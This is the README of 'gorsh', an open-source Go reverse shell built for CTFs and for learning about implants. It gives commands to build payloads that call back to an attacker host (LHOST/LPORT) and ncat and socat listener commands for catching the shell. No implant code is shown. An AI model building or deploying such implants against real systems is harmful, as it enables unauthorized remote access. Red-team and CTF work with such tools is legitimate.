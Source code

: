 # gorsh

[go]lang [r]everse [sh]ell

Originally forked from - [sysdream/hershell](https://github.com/sysdream/hershell)

## Motivation

Learn go.  
Make a throwaway reverse shell for things like CTFs.  
Learn about host-based OPSEC considerations when writing an implant.

## Fork Changes
Changes after fork:

* Uses tmux as a psudeo-C2-like interface, creating a new window with each agent callback
* Situational Awareness output on new shells
* Removed Meterpreter functionality
* Removed Shellcode execution
* Remove the use of passing power/shell commands at the gorsh prompt
* Add common file operation commands that use go instead of power/shell

TODO:

Potentially add reverse socks5 proxy functionality - Using
[Numbers11/rvprxmx](https://github.com/Numbers11/rvprxmx)


## Getting started

Check out [official documentation](https://golang.org/doc/install) for an intro to developing with
Go and settings up your Golang environment (with the `$GOPATH` environment variable).

### Building the payload

First, you'll need to generate your certs:

```bash
$ make depends
```

To simplify things, read the provided Makefile. You can set the following environment variables:

-`GOOS`: the target OS
-`GOARCH`: the target architecture
-`LHOST`: the attacker IP or domain name
-`LPORT`: the listener port

See possible`GOOS`and`GOARCH`variables [here](https://golang.org/doc/install/source#environment).

For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.

Generate with:

```bash
$ make {windows,macos,linux}{32,64} LHOST=example.com LPORT=443
```

## Catching the shell

The `local/start.sh` kicks off a tmux session and creates new windows on every new connection.

Shells can also be caught with:

* socat (not working on macos)
* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

__Examples__

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
$ socat stdio OPENSSL-LISTEN:443,cert=server.pem,key=server.key,verify=0
```

Once executed, you will be provided with the gorsh shell.
Type `help` to show what commands are supported.

## Credits

Initial Work - Ronan Kervella `<r.kervella -at- sysdream -dot- com>`

Modifications - f47h3r - [@f47h3r_b0](https://twitter.com/f47h3r_b0)
